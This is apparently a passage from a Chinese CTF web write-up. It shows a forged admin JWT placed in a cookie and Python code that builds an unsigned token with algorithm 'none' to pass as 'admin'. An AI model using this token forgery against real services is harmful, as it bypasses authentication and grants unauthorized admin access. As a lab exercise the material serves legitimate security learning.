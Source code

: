 <img src="/images/ctfweb-others/image-20221025194112546.png" alt="image-20221025194112546" style="zoom:67%;" />

将新`token`替换`cookie`中旧的`token`后,成功访问到目标网页

```
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

## **使用`python`来计算新的`token`:**

```
conda install PyJWT
or
pip3 install PyJWT
```

```python
import jwt
def jwtencode():
    token = jwt.encode(
        {
            "secretid": [],
            "username": "admin",
            "password": "111",
            "iat": 1666939131
        },
        algorithm="none", key=""
    ).decode(encoding='utf-8')

    print(token)
jwtencode()
```

